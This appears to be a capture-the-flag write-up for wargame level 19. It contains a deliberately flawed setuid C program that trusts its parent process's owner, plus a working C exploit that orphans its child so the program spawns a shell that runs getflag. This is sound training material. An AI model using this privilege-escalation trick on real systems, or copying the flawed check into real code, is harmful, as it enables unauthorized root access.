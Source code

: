 # Level19

#### About

There is a flaw in the below program in how it operates. 
To do this level, log in as the level19 account with the password level19. Files for this level can be found in /home/flag19. 


#### Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
	pid_t pid;
	char buf[256];
	struct stat statbuf;

	/* Get the parent's /proc entry, so we can verify its user id */

	snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

	/* stat() it */

	if(stat(buf, &statbuf) == -1) {
		printf("Unable to check parent process\n");
		exit(EXIT_FAILURE);
	}

	/* check the owner id */

	if(statbuf.st_uid == 0) {
		/* If root started us, it is ok to start the shell */

		execve("/bin/sh", argv, envp);
		err(1, "Unable to execve");
	}

	printf("You are unauthorized to run this program\n");
}
```

#### Solutions

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>
#include <sys/types.h>

int main(void){
    pid_t pid;
    char* args[]= {"/bin/sh", "-c", "getflag > /tmp/flag19", NULL};
    pid = fork();
    if (pid==0){
        nice(19);
        execve("/home/flag19/flag19",args, NULL);
    }else if (pid <0){
        printf("Ups\n");
    }else{
        exit(1);
    }
    return 0;
}
```

#### Recommands

http://securityetalii.es/2012/08/10/soluciones-nebula-niveles-1719/

